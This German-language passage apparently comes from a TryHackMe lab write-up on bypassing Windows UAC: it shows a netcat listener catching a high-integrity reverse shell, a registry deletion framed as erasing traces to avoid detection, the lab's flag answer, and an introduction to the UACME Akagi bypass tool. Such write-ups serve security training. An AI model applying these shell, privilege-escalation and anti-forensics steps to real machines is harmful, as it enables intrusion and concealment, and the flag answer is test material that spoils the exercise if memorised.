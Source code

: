 Als Ergebnis sollten Sie eine Shell mit hoher IL erhalten:
```shell
user@kali$ nc -lvp 4446      
Listening on 0.0.0.0 4446
Connection received on 10.10.183.127 25631
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
```

Um die "DiskCleanup"-Flagge abzurufen, verwenden Sie Ihre neue Shell und führen Sie folgenden Befehl aus:
```cmd
C:\flags\GetFlag-diskcleanup.exe
```

**Hinweis: Beachten Sie, dass die Flagge nur zurückgegeben wird, wenn Sie UAC erfolgreich über "diskcleanup" umgangen haben und nur von der resultierenden Shell mit hoher Integrität über "socat".**

### Spuren beseitigen

Durch die Ausführung dieses Exploits wurden einige Artefakte auf dem Zielsystem erstellt, wie beispielsweise Registrierungsschlüssel. Um eine Erkennung zu vermeiden, müssen wir die Spuren mit folgendem Befehl beseitigen:
```cmd
reg delete "HKCU\Environment" /v "windir" /f
```

**Hinweis: Stellen Sie sicher, dass Sie den angegebenen Befehl ausführen, um zu vermeiden, dass Artefakte die folgenden Aufgaben beeinträchtigen. Da viele Windows-Komponenten auf die Umgebungsvariable %windir% angewiesen sind, werden viele Dinge nicht richtig funktionieren, bis Sie den für diese Umgehung verwendeten Registrierungsschlüssel entfernen.**

## Fragen:
Welche Flagge wird durch die Ausführung des "DiskCleanup"-Exploits zurückgegeben?
```
THM{SCHEDULED_TASKS_AND_ENVIRONMENT_VARS}
```

# Task 7 - Automatisierter Exploit
Automatisierung von UAC-Umgehungen

Ein hervorragendes Tool zum Testen von UAC-Umgehungen, ohne die Exploits von Grund auf neu schreiben zu müssen, steht zur Verfügung. Erstellt von @hfiref0x, bietet UACME ein aktuelles Repository von UAC-Umgehungstechniken, die sofort verwendet werden können. Das Tool ist im offiziellen Repository verfügbar unter:

[https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)

Während UACME mehrere Werkzeuge bereitstellt, konzentrieren wir uns hauptsächlich auf das Tool namens Akagi, das die eigentlichen UAC-Umgehungen durchführt. Eine kompilierte Version von Akagi finden Sie unter C:\tools\UACME-Akagi64.exe.
